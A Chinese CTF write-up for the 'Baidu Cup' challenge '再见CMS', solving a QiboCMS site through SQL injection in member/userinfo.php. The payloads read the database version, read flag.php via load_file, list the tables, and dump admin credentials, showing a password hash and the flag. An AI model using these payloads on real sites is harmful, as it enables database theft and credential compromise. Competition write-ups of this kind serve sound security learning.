

# 再见CMS

## 题目描述
---
```
这里还是有一个小脑洞
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---


## 题目分值
---


## 部署方式
---


## 解题思路
---

检测到是齐博CMS


找到一个可以利用的漏洞 https://www.2cto.com/article/201501/365742.html

向`member/userinfo.php?job=edit&step=2`发送数据包：

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select version()) where uid = 3 %23
```


> 注意，在漏洞博客里没有给出的含有email的payload，需要在字段中添加上old_password字段才能过校验

在进行敏感文件查找时发现存在`flag.php`文件


尝试读取文件，题目已经给出了物理路径`/var/www/html/cache/label_cache/index_0_0_25_0_0_24be0.php `


则flag.php的路径应该为`/var/www/html/flag.php`，转为16进制`2f7661722f7777772f68746d6c2f666c61672e706870`

所以payload为

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select load_file(0x2f7661722f7777772f68746d6c2f666c61672e706870)) where uid = 4 %23
```


成功获取到flag{d6d5128d-308a-416b-b5fe-13465cf5ab18}

## 其他
---


读数据库表

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select group_concat(distinct table_name) from information_schema.tables where table_schema=database()) where uid = 4 %23
```


读表`admin`列名

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name=0x61646d696e) where uid = 4 %23
```



读表`admin`内容

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select group_concat(username,0x7c,password,0x7c,Email) from admin) where uid = 4 %23
```


admin|2638127c92b79ee7901195382dc08068|xx 	 

